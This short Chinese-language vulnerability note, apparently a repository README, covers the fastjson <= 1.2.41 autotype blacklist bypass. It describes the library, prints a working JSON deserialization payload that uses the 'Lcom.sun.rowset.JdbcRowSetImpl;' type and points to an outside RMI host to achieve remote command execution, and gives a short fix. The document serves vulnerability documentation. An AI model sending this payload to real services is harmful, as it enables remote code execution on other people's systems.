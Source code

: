 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.41

由于过滤不严格，在开启autotype后导致类加载黑名单被绕过，造成命令执行


### 二 漏洞利用
```
{           
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"rmi://192.168.52.129:9999/rce_1_2_24_exploit",
	"autoCommit":true
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson


### 四 漏洞分析
![img.png](img.png)

> 参考链接
> https://www.cnblogs.com/0x28/p/14378502.html  
> https://www.cnblogs.com/huim/p/16566911.html
